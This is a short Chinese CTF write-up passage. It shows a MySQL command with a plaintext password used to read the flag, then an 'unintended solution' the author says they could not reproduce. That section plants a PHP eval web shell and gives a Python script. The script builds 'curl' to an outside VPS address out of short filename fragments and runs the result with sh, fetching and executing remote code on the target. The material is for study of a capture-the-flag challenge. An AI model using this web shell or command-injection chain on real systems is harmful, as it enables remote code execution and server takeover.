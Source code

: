```mysql
mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e 'use fl4gdb;select * from this_is_the_fl4g;'
```

连接数据库获得flag



## 非预期解

这个预期解，我没有复现成功，也不知道为什么，我一直都读不到IP沙箱的文件夹，但还是记录一下这个思路。

首先在VPS的`index.html`上挂一个

```php
echo "<?php eval(\$_REQUEST['XXXX']);?>" > /www/sandbox/md5('orange'+$_SERVER[REMOTE_ADDR])/2.php
```

接着执行

```php
curl vps>1
```

实际上这一步和预期解的解法是一样的。

那也就是将vps上的内容写入文件1，然后执行文件1

我写的脚本

```php
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl 106.15.250.162>1` 
    '>\>1',
    '>2\\',
    '>16\\',
    '>0.\\',
    '>25\\',
    '>5.\\',
    '>1\\',
    '>6.\\',
    '>10\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    # exec
    'sh _', 
    'sh g', 
    'sh 1'
]

r = requests.get('http://117.50.3.97:8001/?reset=1')
for i in payload:
    r = requests.get('http://117.50.3.97:8001/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```